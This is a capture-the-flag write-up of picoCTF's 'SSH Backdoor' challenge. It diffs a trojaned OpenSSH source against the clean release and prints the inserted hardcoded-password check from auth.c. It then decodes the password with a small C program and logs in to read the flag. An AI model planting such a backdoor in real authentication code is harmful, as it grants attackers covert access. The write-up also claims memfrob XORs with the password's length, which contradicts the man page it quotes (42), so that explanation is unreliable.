 ### Solved by superkojiman

SSH Backdoor is a 100 point forensics challenge. 

> Some hackers have broken into my server backdoor.picoctf.com and locked my user out (my username is jon). I need to retrieve the flag.txt file from my home directory. 
The last thing we noticed in out network logs show is the attacker downloading this. Can you figure out a way to get back into my account?

The network logs showed a download of [openssh-6.7p1-evil.tar.gz](https://picoctf.com/problem-static/forensics/SSHBackdoor/openssh-6.7p1-evil.tar.gz). The hint for this challenge suggests that a backdoor was left in this version of OpenSSH. So if we can find the backdoor, we can figure out how to login to the server. I downloaded the backdoored OpenSSH, and also grabbed the original clean version from [http://openbsd.cs.toronto.edu/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz](here). I unpacked the backdoored version into a directory called evil, and the clean version into a directory called orig:

```
$ mkdir evil; tar xvzf openssh-6.7p1-evil.tar.gz -C evil
$ mkdir orig; tar xvzf openssh-6.7p1 -C orig 
```

Now let's check to see what files are different. Quickest way was to just use the cmp command:

```
$ for i in evil/openssh-6.7p1/*; do if [[ ! -d $i ]]; then cmp $i orig/openssh-6.7p1/`basename $i`; fi  ;done
evil/openssh-6.7p1/auth-passwd.c orig/openssh-6.7p1/auth-passwd.c differ: char 3621, line 115
cmp: EOF on orig/openssh-6.7p1/auth.c
evil/openssh-6.7p1/auth.h orig/openssh-6.7p1/auth.h differ: char 7091, line 214
```

Looks like auth.c has been modified in the backdoored version. Let's have a look at the changes: 

```
$ diff evil/openssh-6.7p1/auth.c orig/openssh-6.7p1/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
<   int rc = 0;
<   size_t len = strlen(str);
<   char *s = xstrdup(str);
<   memfrob(s, len);
<
<   if (strcmp(chk, s) == 0) {
<       rc = 1;
<   }
<
<   free(s);
<   return rc;
< }
<
< int check_password(const char *password) {
<   return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
```

So the backdoor is pretty simple. It takes the user's password, calls memfrob() on it, and if it matches the string "CGCDSE_XGKIBCDOY\^OKFCDMSE_XLFKMY", then it lets the user in. What does memfrob() do? According to its manual page:

> The memfrob() function encrypts the first n bytes of the memory area s by exclusive-ORing each character with the number 42.  The effect can be reversed by using memfrob() on the encrypted memory area.

So it just XORs the password using a key, in this case, the length of the password. To decrypt the password "CGCDSE_XGKIBCDOY\^OKFCDMSE_XLFKMY", we just need to XOR it with its length. The following C code does just that:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *s = "CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY";
    char *t = strdup(s); 
    size_t len = strlen(s); 

    memfrob(t, len);
    printf("%s\n", t); 
    return 0; 
}
```

We compile and run it, and it gives us the password:

```text
$ gcc decrypt.c -o decrypt
$ ./decrypt 
iminyourmachinestealingyourflags
```

Let's try to login:

```text
$ ssh jon@backdoor.picoctf.com
The authenticity of host 'backdoor.picoctf.com (23.21.109.77)' can't be established.
RSA key fingerprint is 69:2c:9a:4c:64:f3:e3:2a:0a:d9:b1:9a:59:de:32:71.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'backdoor.picoctf.com,23.21.109.77' (RSA) to the list of known hosts.
jon@backdoor.picoctf.com's password:
Last login: Sat Nov  1 20:23:59 2014 from 184.72.219.127
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```

Success! We logged in, found a flag.txt, and read its contents. The flag is **ssshhhhh_theres_a_backdoor**
